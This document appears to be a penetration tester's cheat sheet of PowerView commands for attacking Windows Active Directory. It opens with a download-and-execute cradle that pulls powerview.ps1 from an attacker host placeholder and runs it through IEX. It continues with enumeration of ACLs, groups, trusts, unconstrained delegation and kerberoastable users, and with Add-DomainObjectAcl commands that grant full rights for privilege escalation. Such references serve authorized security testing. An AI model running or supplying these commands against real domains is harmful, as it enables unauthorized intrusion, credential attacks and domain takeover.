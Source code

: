 # powerview

% ad, windows, powerview

## load from remote
#assessment/AD #target/remote  #cat/RECON 

https://github.com/PowerShellMafia/PowerSploit/

```powershell
(new-object system.net.webclient).downloadstring('http://<lhost>/powerview.ps1') | IEX
```

## Set alternative creds to use
#assessment/AD #target/remote  #cat/RECON 
Example : Use with commands as "-Credential $creds"

```powershell
$passwd = ConvertTo-SecureString "<password>" -AsPlainText -Force; $creds = New-Object System.Management.Automation.PSCredential ("<domain>\<user>", $passwd)
```

## Get User from SID
#assessment/AD #target/remote  #cat/RECON 
```powershell
ConvertFrom-SID <sid>
```

## Find user ACL 
#assessment/AD #target/remote  #cat/RECON 
```powershell
Get-ObjectAcl -Identity <user> -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_}
```

## Find all domain user ACL
#assessment/AD #target/remote  #cat/RECON 
```powershell
Get-DomainUser | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
```

## Add user DACL
#assessment/AD #target/remote  #cat/ATTACK
```powershell
Add-DomainObjectAcl -TargetIdentity <target> -PrincipalIdentity <current_user> -Rights All
```

## Find all groups our current user got access
#assessment/AD #target/remote  #cat/RECON 
```powershell
Get-DomainGroup | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
```

## Find all users our current user got access
#assessment/AD #target/remote  #cat/RECON 
```powershell
Get-DomainUser | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
```


## Add GenericAll to target for user
#assessment/AD #target/remote  #cat/ATTACK/EXPLOIT 
```powerview
Add-DomainObjectAcl -TargetIdentity <target> -PrincipalIdentity <user> -Rights All
```

## Find all Computer with unconstrained delegation
#assessment/AD #target/remote  #cat/RECON 
```powershell
Get-DomainComputer -Unconstrained
```

## Get all domain trust 
#assessment/AD #target/remote  #cat/RECON 
```powershell
Get-DomainTrustMapping
```

## Get all members of a a given group
#assessment/AD #target/remote  #cat/RECON 
Example: Get-DomainGroupMember "Domain Admins" -Recurse

```powershell
Get-DomainGroupMember -Identity "<group|Administrators>" -Domain <domain> -Recurse
```



## Get list of kerberoastable users
#assessment/AD #target/remote  #cat/RECON 
Description : The following will enumerate 'Kerberoastable' users for a given domain

```powershell
Get-DomainUser -SPN -Domain <domain> | select name, samaccountname, serviceprincipalname
```
